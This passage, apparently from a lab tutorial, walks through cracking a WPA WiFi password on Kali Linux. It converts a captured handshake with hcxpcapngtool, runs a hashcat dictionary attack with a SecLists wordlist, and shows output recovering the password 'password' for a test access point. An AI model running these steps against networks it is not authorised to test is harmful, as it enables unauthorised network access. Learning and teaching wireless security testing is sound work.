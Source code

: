 ```
drew@kali:~$ hcxpcapngtool -o ap.hc22000 netcap-01.cap
```

We can use `ls` to list the newly created file. 
```
drew@kali:~$ls                                                                                                                                                                                 130 ⨯
ap.hc22000  netcap-01.cap  netcap-01.csv  netcap-01.kismet.csv  netcap-01.kismet.netxml  netcap-01.log.csv
```
#### Running Hashcat
We can now run hashcat with the following options to crack the password:

- **-m 22000**: This option sets the hash mode to `22000`, which corresponds to WPA-PBKDF2-PMKID+EAPOL. It tells hashcat what type of hash it is working on.

- **ap.hc22000**: This file contains the captured WPA handshake data in a format (`.hc22000`) that hashcat can process.

- **/usr/share/seclists/Passwords/WiFi-WPA/probable-v2-wpa-top4800.txt**: This is the path to the dictionary file that hashcat will use. The tool will try each password in this list to see if it matches the hash in `ap.hc22000`.

```
drew@kali:~$ hashcat -m 22000 ap.hc22000 /usr/share/seclists/Passwords/WiFi-WPA/probable-v2-wpa-top4800.txt
hashcat (v6.2.6) starting

Optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt
* Slow-Hash-SIMD-LOOP

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 2 MB

Dictionary cache built:
* Filename..: /usr/share/seclists/Passwords/WiFi-WPA/probable-v2-wpa-top4800.txt
* Passwords.: 4800
* Bytes.....: 45276
* Keyspace..: 4800
* Runtime...: 0 secs

c329a97d3d1ba2ea83384427de1b3ca6:1a362a2ed0e0:e8b0c531e7e7:AP:password
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 22000 (WPA-PBKDF2-PMKID+EAPOL)
Hash.Target......: ap.hc22000
Time.Started.....: Mon Feb 17 23:46:50 2025 (1 sec)
Time.Estimated...: Mon Feb 17 23:46:51 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/seclists/Passwords/WiFi-WPA/probable-v2-wpa-top4800.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:     1964 H/s (10.90ms) @ Accel:128 Loops:256 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 1024/4800 (21.33%)
Rejected.........: 0/1024 (0.00%)
Restore.Point....: 0/4800 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: password -> christin
```